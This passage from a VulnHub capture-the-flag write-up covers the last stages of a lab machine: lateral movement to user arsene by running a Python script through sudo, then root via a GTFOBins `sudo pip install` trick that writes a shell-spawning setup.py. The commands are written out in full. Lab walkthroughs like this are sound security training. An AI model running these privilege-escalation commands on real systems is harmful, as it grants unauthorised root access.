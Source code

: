 I then executed `heist.py` as arsene.

```
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```

Successfully obtaining a shell as this user.

![image](https://github.com/vsang181/VulnHub/assets/28651683/00e163b4-06a4-4ac2-a312-da4684f70e37)

Running `sudo -l` again, this time as `arsene`, I checked for commands that could be executed as root without a password.

![image](https://github.com/vsang181/VulnHub/assets/28651683/d85bd532-af80-48f7-9d25-b9296dd102f5)

For guidance on exploiting `pip`, I referred to [GTFOBins](https://gtfobins.github.io/), an excellent resource for such situations.

Following the instructions from `GTFOBins`, I executed a series of commands to spawn an interactive root shell.

```
TF=$(mktemp -d)
```

```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```

```
sudo pip install $TF
```

Finally, this method successfully granted me root access.

![image](https://github.com/vsang181/VulnHub/assets/28651683/8d62bd70-618d-40e5-a761-12dbd7c8c718)

Allowing me to capture the coveted root flag.

![image](https://github.com/vsang181/VulnHub/assets/28651683/71899e4c-80db-4da1-af47-b663672ff4f5)

## Let's Connect

I welcome your insights, feedback, and opportunities for collaboration. Together, we can make the digital world safer, one challenge at a time.

- **LinkedIn**: (https://www.linkedin.com/in/aashwadhaama/)

I look forward to connecting with fellow cybersecurity enthusiasts and professionals to share knowledge and work together towards a more secure digital environment.
